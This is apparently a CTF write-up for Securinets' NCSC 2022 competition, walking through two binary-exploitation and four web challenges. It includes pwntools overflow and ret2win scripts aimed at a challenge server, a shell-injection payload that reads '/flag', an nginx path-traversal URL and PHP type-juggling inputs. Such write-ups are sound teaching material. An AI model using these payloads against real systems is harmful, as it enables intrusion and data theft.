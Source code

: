 # National Cyber Security Congress

NCSC, organized by Securinets, hosted an 8 hours CTF, started the 29th of January at 23:00 (GMT +1). <br/>
I've participated in the CTF with [Aziz Zribi](https://www.facebook.com/Aziz.Zribi.Z), [Zakaria Soussi](https://www.facebook.com/zakaria.soussi.12) & [Anas Chaibi](https://www.facebook.com/chanas07) as a team. We ranked the 7th out of 52 teams.

<br/>
<hr>

* ### Binary exploitation

  #### 1. Babypwn
    That's a pretty basic challenge, here is the source code:
    <details>
    <summary>Show</summary>

    ```C
    #include <stdio.h>
    #include <stdlib.h>
    #include <string.h>
    void init_buffering() {
      setvbuf(stdout, NULL, _IONBF, 0);
      setvbuf(stdin, NULL, _IONBF, 0);
      setvbuf(stderr, NULL, _IONBF, 0);
    }
    int main(){
      int x = 0x41414141;
      char name[20];
      init_buffering(); // ignore this line
      puts("what's your name ?");
      gets(name);
      if(x != 0x41414141) {
        execve("/bin/sh", 0, 0);
      }
      return 0;
    }
    ```
    </details>

    We only need to overwrite `x` value in memory so we can just send a payload long enough to overwrite it. Here is a script for this challenge:

    <details>
    <summary>Show</summary>

    ```python
    from pwn import *

    # nc 52.188.108.186 1239
    conn = remote('52.188.108.186',1239)

    conn.send(b'azertyuiopqsdfghjklmwxcvbnaazzeerrttyyuuiiooppmmllkkjjhhggffddsqqwwxxccv' )

    conn.interactive()
    ```
    </details>

    And we get our shell & flag.

    <p align="center">
    <img src="/2022/NCSC/img/babyflag.png"><br/>
    </p>

  #### 2. Babypwn
    For this challenge, we get our source code:
    <details>
    <summary>Show</summary>

    ```C
    #include<stdio.h>
    #include<stdlib.h>
    #include<string.h>
    void win(){
      execve("/bin/sh", 0, 0);
    }
    void strip(char *format) {
      format[strcspn(format, "\n")] = 0;
    }
    void init_buffering() {
      setvbuf(stdout, NULL, _IONBF, 0);
      setvbuf(stdin, NULL, _IONBF, 0);
      setvbuf(stderr, NULL, _IONBF, 0);
    }
    int main(){
      init_buffering();
      puts("Freedom is all I want! you are free to choose your format specifier !");
      char buffer[60];
      char format[20];
      printf("> ");
      read(0, format, 20);
      strip(format);
      puts("Now, do what you want!");
      scanf(format,buffer);
      puts("good bye !");
      return 0;
    }
    ```
    </details>
    That's a ret2win, we have control on the `scanf`'s format & we'll be writing into `buffer`. We start gdb to do some tests, you can find the binary [here](https://github.com/M0ngi/CTF-Writeups/blob/main/2022/NCSC/pwn/freedom). We need to get our win address.

    <p align="center">
      <img src="/2022/NCSC/img/freedomgdb.png"><br/>
    </p>

    Now, we need to get the length of our payload. Since we have control over the format, we'll be reading a string using `%s` & we'll use this pattern: `azertyuiopqsdfghjklmwxcvbnaazzeerrttyyuuiiooppmmllkkjjhhggffddsqqwwxxccvvbbnn`.

    <p align="center">
      <img src="/2022/NCSC/img/freedomgdb2.png"><br/>
    </p>

    And we get a segmentation fault:

    <p align="center">
      <img src="/2022/NCSC/img/freedomgdb3.png"><br/>
    </p>

    Our RIP: `0x6e6e626276 ('vbbnn')`, we now know the proper payload to change the RIP: `azertyuiopqsdfghjklmwxcvbnaazzeerrttyyuuiiooppmmllkkjjhhggffddsqqwwxxccv`

    Now we got everything we need for the exploit, here is our script:

    <details>
    <summary>Show</summary>

    ```python
    from pwn import *

    # nc 52.188.108.186 1237
    conn = remote('52.188.108.186',1237)

    conn.send('%s')
    conn.send(b'azertyuiopqsdfghjklmwxcvbnaazzeerrttyyuuiiooppmmllkkjjhhggffddsqqwwxxccv' + p64(0x00000000004011f6))

    conn.interactive()
    ```
    </details>

    And our flag is `Securinets{d4ce75b4a536228bfc8371bfba2fdd45}`

* ### Web
  #### 1.  Broken Pingyy 
    For this challenge, we get the source code:
    <details>
    <summary>Show</summary>

    ```php
    <?php
    if(isset($_POST['ip'])){
      $cmd=$_POST['ip'];
      $clean=escapeshellarg($cmd);
      if($output = shell_exec("bash -c 'ping -c1 -w3 $clean" ))
        echo "<pre>$output</pre>";
      else
        echo "an error has occurred !";
    }
    ?>
    ```
    </details>

    And a link to this page:

    <p align="center">
      <img src="/2022/NCSC/img/webpingy.png"><br/>
    </p>

    If we use `www.google.com` as an input, we'll get ` an error has occurred ! `, Let's have a look at the code.

    As a start, we notice that we have a missing `'` at the end of `shell_exec("bash -c 'ping -c1 -w3 $clean" )` which caused our error. Also we are using `escapeshellarg`, a quick lookup in php documentation gives the following: (Ref)[https://www.php.net/manual/en/function.escapeshellarg.php]

    ```
    escapeshellarg() adds single quotes around a string and quotes/escapes any existing single quotes
    ```
    which means that our `$clean` variable should have a closing quote! Let's visualize this with an example, if we use `payload` as an input, saved in `$cmd`, after `escapeshellarg` we should have `$clean` equal to `'payload'` which means, `shell_exec` will be executed with `bash -c 'ping -c1 -w3 'payload'`. Therefor, if we escape the last quote & start our payload with a `;`, we should have `bash -c 'ping -c1 -w3 ';payload\'`. We'll be able to inject shell commands in our payload but we'll have to make use of the last quote to avoid getting an error, we can include an `;echo ` at the end of our payload to simply show that quote & avoid any errors. 
      
    Our final payload should look like this: `;cmd;echo \` which will result in executing `cmd` & that's our shell! Now we can try to get the content of `/flag` using `;cat /flag;echo \` as a payload & we get our flag!

    <p align="center">
      <img src="/2022/NCSC/img/webpingyflag.png"><br/>
    </p>
      
  #### 2.  Welcome To Web Universe
    
    For this challenge, we get a zip with the source code [Link](/2022/NCSC/Welcome%20To%20Web%20Universe)

    And a link to an empty page that contains `Everything is good afaik`.
      
    Looking at the source code, we know that we have a flask web server, if we examine the [main.py](/2022/NCSC/Welcome%20To%20Web%20Universe/src/main.py) we see that we have 2 routes, `/v1/status` & `/flag`, we'll be aiming for the flag route. If we check the link we got, we can see that we are in `/leetstatus`, this looks weird.
      
    Digging more into the files given, if we check the configuration file located in [nginx](/2022/NCSC/Welcome%20To%20Web%20Universe/nginx), we find this configuration
    
    ```config
    server {
      listen 80;
      server_name welcome.task;

      location /leet {
        proxy_pass http://api:5000/v1/;
      }

      access_log off;
      error_log /var/log/nginx/error.log error;
    }
    ```
      
    I don't have any knowledge about this kind of servers but looking at the `location` section, we can be redirecting `/leet` to our api's route `/v1/`. As if we are saying that `/leet` is replaced by `/v1/`, which makes sense because our current route `/leetstatus` will become `/v1/status` ! Now we want to navigate to our `/flag` route, we can use `/leet../flag` which will be transformed into `/flag` & we get our flag: 
      
    `Securinets{Nginx_Is_NoT_ThaT_GooD_AftER_All}`

  #### 3. Peehpee
    
    For this challenge, we get our source code:
    <details>
    <summary>Show</summary>

    ```php
    <?php
      //Show Page code source
      highlight_file(__FILE__);
      require "secret.php";
      if(isset($_GET["__"])&&isset($_GET["_"])){
        $x=$_GET["__"];
        $inp=preg_replace("/[^A-Za-z0-9$]/","",$_GET["_"]);
        if($inp==="Kahla"){
          die("Hacking Attempt detected");
        }
        else{
          if(eval("return $inp=".$inp.";")==="Kahla"){
              echo $flag;
          }
          else{
              die("Pretty Close maybe ?");
          }
        }
      }
    ?>
    ```
    </details>
    
    We have 2 parameters, `_` & `__`, passed via GET request. We are saving `__` into `$x` & then we see somekind of a filter applied on `_`, allowing only alphabet characters, digits & the dollar sign `$`. After replacing unauthorized characters, we store that in `$inp`.
      
    Then we check `$inp` value, if equal to "Kahla" then we fail, else we have an `eval` which will change `$inp` value to whatever `$inp` contains, concatenated as a string. If the value of `$inp` is "Kahla" after executing `eval`, we'll get our flag.
      
    Since no check on `__` is done, we can pass `Kahla` in it & it'll be saved in `$x` & since we'll be setting `$inp` to whatever value it contains, we can pass `$x` (The $ is authorized) & it'll evaluate as `$inp = $x`. 
      
    As simple as that, we get our flag: `Securinets{PeehPee_1s_AlWAYs_H3r3}`

  #### 4. weird php
    For this challenge, we get our source code:
    <details>
    <summary>Show</summary>

    ```php
    <?php
      highlight_file(__FILE__);
      include ("secret.php");

      if (isset($_GET['a'])&&isset($_GET['b'])&&isset($_GET['c'])) {
          $array = json_decode($_GET['a']);
          if ($array->key == SECRET) {
              if ( ($_GET['b'] !== $_GET['c']) && (md5($_GET['b']) === md5($_GET['c']) ) ) {
                  echo FLAG;
              }else {
                  echo "👍👍👍👍👍👍👍👍👍";
              }
          } else {
              echo "Try harder bb :)";
          }
      }
      ?> 
    ```
    </details>
      
    We have 3 parameters, `a`, `b` & `c`. We can see that `a` is a JSON that gets parsed by `json_decode`. Also, we have a loose comparison on the `key` value in `a` with `SECRET`, then we get a check on `b` & `c`. 
      
    Starting with the first check, we can use `0` for the `key` value & PHP will evaluate that as true [Ref to Type Juggling](https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf), If we try `a={"key":0}&b=&c=` we'll pass the first check.
      
    Second, we compare `b` & `c` (strict comparison) therefor, both of their types must match. Also, their MD5 hash must be equal. We can abuse the `md5` function by sending `b` & `c` as an array, which will return null for both & throw a warning.
      
    Finally, we can use the following parameters `a={"key":0}&b[]=a&c[]=b` & get our flag: ` Securinets{Th1S_1s_t00_w3iRd!!!}`
    

